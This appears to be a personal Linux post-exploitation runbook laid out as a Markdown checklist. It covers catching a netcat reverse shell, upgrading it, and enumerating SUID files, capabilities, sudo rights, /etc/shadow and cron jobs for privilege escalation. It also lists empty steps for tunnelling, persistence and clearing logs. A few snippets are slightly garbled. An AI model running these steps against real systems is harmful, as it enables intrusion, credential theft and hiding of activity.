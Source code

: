 # Linux Runbook

## Task List

- [ ] [Stabilize shell](#stabilize-shell)
- [ ] [Copy tools to the target](#copy-tools-to-the-target)
- [ ] [Enumerate](#enumerate)
  - [ ] [System Info](#system-info)
  - [ ] [Permissions](#permissions)
  - [ ] [Processes and Services](#processes-and-services)
  - [ ] [Networking](#networking)
  - [ ] [Users and Groups](#users-and-groups)
  - [ ] [Tasks](#tasks)
  - [ ] [Logs](#logs)
  - [ ] [Installed software](#installed-software)
- [ ] [Finalize](#Finalize)
  - [ ] [Establish tunnel](#establish-tunnel)
  - [ ] [Copy information from the target](#copy-tools)
  - [ ] [Establish persistance](#establish-persistance)
  - [ ] [Clear logs]


## Stabilize Shell  

- Listen to reverse shell:

```bash
rlwrap nc -lvnp 443
```

- Upgrade the shell:

```bash
python -c 'import pty;pty.spawn("/bin/bash")' # Explicit python version may be required.
```

## Copy tools to the target

## Enumerate

- ### System Info

  - System specific info
  
    ```bash
    cat /etc/issue 
    cat /etc/os-release
    uname -r
    arch
    id
    ```

- ### Permissions
  
  - Find suspicious files
    ```bash
    # Files with SUID bit
    find / -perm -u=s -type f 2>/dev/null
    # Directories with writable permissions
    find / -writeable -type d 2>/dev/null
    # Look for useful files
    find / -type f -name -o -name "*.txt" -o -name "*.kdbx" -o -name "*.zip" 2>/dev/null
    # Files that may give you have +x
    find /home/joe/Desktop -exec "/usr/bin/bash" -p \;
    # Manually Enumerating Capabilities
    /usr/sbin/getcap -r / 2>/dev/null
    # List commands that user can run as sudo  - >  GTFObins
    sudo -l
    ```

  - Mounted permissions

    ```bash
    cat /etc/fstab
    lsblk
    ```

- ### Processes and Services

  - Running Processes

    ```python
    python3 -c 'import pty;pty.spawn("/bin/bash")'
     ```

- ### Networking
  
  - Ip info
    - ifconfig
    - netstat -an
    - ss -an
    - lsof -i
  - Routing info
    - routel
    - route
  - Firewalls
    - iptables (cat /etc/iptables/rules.v4)
    - ufw
  
- ### Users and Groups

  - Users

    ```bash
    - cut -d: -f1 /etc/passwd
    - ?sudo --version 1.18.31
    ```

  - Groups

    ```bash
    - cut -d: -f1 /etc/group
    - cat /etc/shadow
    - cat /etc/sudoers
    ```

- ### Tasks

  - Crontab

    ```bash
    ls -lah /etc/cron*
    crontab -l
    ```
  
- ### Logs

  - Bash history
  - /var/logs
  - user ./.bash_history
  - ls /opt; 
  - ls /var/mail
  
- ### Installed software

  - View installed software

     ```bash
    # rpm
    rpm -qa; yum list installed;
    # apt
     dpkg -l; apt list installed;
    ```

## Establish tunnel

## Establish persistance




## Automated Tools

- unix-privesc-check
- linpeas.sh
- pspy64
